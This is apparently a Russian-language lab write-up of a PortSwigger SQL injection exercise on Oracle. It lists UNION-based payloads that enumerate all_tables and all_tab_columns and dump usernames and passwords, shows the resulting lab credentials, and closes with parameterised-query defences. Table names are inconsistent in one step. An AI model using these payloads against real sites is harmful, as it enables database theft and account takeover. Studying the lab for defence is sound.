






## Lab: SQL injection attack, listing the database contents on Oracle
**Платформа:** PortSwigger Web Security Academy
**Категория:** SQL Injection — Examining the Database
**Сложность:** Practitioner
**Дата:** 2025-07-11

---

## TL;DR
Приложение уязвимо к UNION-based SQL-инъекции в параметре `category`.
Через системные таблицы Oracle `all_tables` и `all_tab_columns`
получила структуру БД, извлекла учётные данные и вошла как `administrator`.

---

## Описание уязвимости
Oracle не имеет `information_schema` как MySQL/PostgreSQL.
Вместо неё используются собственные системные представления:

```
all_tables      → список всех таблиц
all_tab_columns → список всех столбцов
dual            → служебная таблица (обязательна в SELECT)
```

Через UNION-атаку можно запросить эти представления
и получить полную карту базы данных.

---

## Разведка

### Шаг 1 — Подтверждаем SQLi
Ввела в адресную строку браузера:

```
/filter?category=' OR 1=1--
```

Страница вернула все товары — инъекция работает.



### Шаг 2 — Определяем количество столбцов
В Oracle каждый SELECT требует FROM — используем `dual`:

```
' ORDER BY 1--   → 200 OK
' ORDER BY 2--   → 200 OK
' ORDER BY 3--   → 500 Error
```

Два столбца. Проверяем типы:

```
' UNION SELECT 'abc','def' FROM dual--   → 200 OK
```

Оба столбца строковые.



---

## Эксплуатация

### Шаг 3 — Получаем список таблиц

```
' UNION SELECT table_name,NULL FROM all_tables--
```

В ответе длинный список таблиц. Нашла таблицу с пользователями:

```
USERS_ABCDEF
```



### Шаг 4 — Получаем столбцы таблицы

```
' UNION SELECT column_name,NULL FROM all_tab_columns
  WHERE table_name='USERS_NJTUUL'--
```

Ответ вернул названия столбцов:

```
USERNAME_ABCDEF
PASSWORD_ABCDEF
```



### Шаг 5 — Извлекаем учётные данные

```
' UNION SELECT USERNAME_ABCDEF,PASSWORD_ABCDEF FROM USERS_ABCDEF--
```

Получила список всех пользователей:

```
administrator  →  yb734hxuwyd9yc5239k6
wiener         →  8oss8uah8n06mkkb4b6w
carlos         →  j68xgej2uesg9yyx7axt
```



### Шаг 6 — Входим как administrator
Использовала полученный пароль на странице логина.



Лаба решена.

---

## Полная цепочка атаки

```
1. Подтверждаем SQLi           → ' OR 1=1--
2. Определяем столбцы          → ORDER BY + UNION SELECT FROM dual
3. Читаем список таблиц        → all_tables
4. Находим таблицу с юзерами   → USERS_ABCDEF
5. Читаем столбцы таблицы      → all_tab_columns
6. Извлекаем данные            → USERNAME + PASSWORD
7. Логинимся                   → administrator
```

---

## Oracle vs Non-Oracle — ключевые отличия

| | Oracle | MySQL / PostgreSQL |
|---|---|---|
| Список таблиц | `all_tables` | `information_schema.tables` |
| Список столбцов | `all_tab_columns` | `information_schema.columns` |
| FROM обязателен | Да (`FROM dual`) | Нет |
| Имена таблиц | Верхний регистр | Любой регистр |
| Версия БД | `v$version` | `@@version` / `VERSION()` |

---

## Итог
Oracle использует собственные системные представления вместо
`information_schema`. Подход тот же что и в Non-Oracle лабе —
меняются только названия системных таблиц и обязательный
`FROM dual` в каждом SELECT.

---

## Защита

```python
# Параметризованный запрос для Oracle:
cursor.execute(
    "SELECT * FROM products WHERE category = :category",
    {"category": category}
)
# Oracle использует :name синтаксис
# Пользовательский ввод никогда не интерпретируется как SQL

# Дополнительно — минимальные привилегии:
# Пользователь приложения не должен иметь доступ
# к all_tables и all_tab_columns в продакшне
GRANT SELECT ON products TO app_user;
```